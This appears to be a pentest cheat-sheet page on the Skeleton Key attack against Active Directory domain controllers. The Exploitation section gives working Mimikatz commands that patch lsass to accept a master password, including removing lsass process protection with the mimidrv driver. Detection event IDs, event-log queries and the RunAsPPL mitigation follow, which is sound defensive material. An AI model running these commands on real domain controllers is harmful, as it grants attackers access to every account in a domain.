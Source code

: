 # Skeleton Key

## General

- Patch a Domain Controller (lsass process) so that it allows access as any user with a single password
- Discovered in malware named Skeleton Key malware
- All publicly known methods are NOT persistent accross reboots
- Mimikatz to the rescue

## Exploitation

```powershell
# Inject skeleton key on DC of choice with default password of 'mimikatz'. DA privs required
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName dcorp-dc.dollarcorp.moneycorp.local

# If lsass is running as procted process we can still use Skeleton Key but it needs the mimikatz driver (mimidriv.sys) on disk of target DC. Very noisy!
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-

# Access machine with valid username
Enter-PSSession -ComputerName dcorp-dc -Credential dcorp\administrator
```

## Detection

- Events:
  - 7045: A service was installed in the system (Type: Kernel Mode Driver)
  - 4624: Account Logon
  - 4634: Account Logoff
  - 4672: Admin Logon
- Events("Audit Privilege Use" must be enabled)
  - 4673: Sensitive Privilege Use
  - 4611: A trusted logon process has been registered with the Local Security Authority

```powershell
Get-WinEvent -FilterHashtable @{Logname='Security';ID=7045} | ?{$_.message -like "*Kernel Mode Driver*"}

# Not recommended (detects only stock mimidriv)
Get-WinEvent -FilterHashtable @{Logname='Security';ID=7045} | ?{$_.message -like "*Kernel Mode Driver*" -and $_.message -like "*mimidrv*"}
```

## Mitigation

- Run lsass.exe as a protected process, as it forces an attacker to load a kernel mode driver -> log detection
- Test before implementing, as many drivers and plguins may not load with the protection

```powershell
New-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name RunAsPPL -Value 1 -Verbose

# Verify after reboot
Get-WinEvent -FilterHashtable @{Logname='Security';ID=12} | ?{$_.message -like "*protected process*"}
```

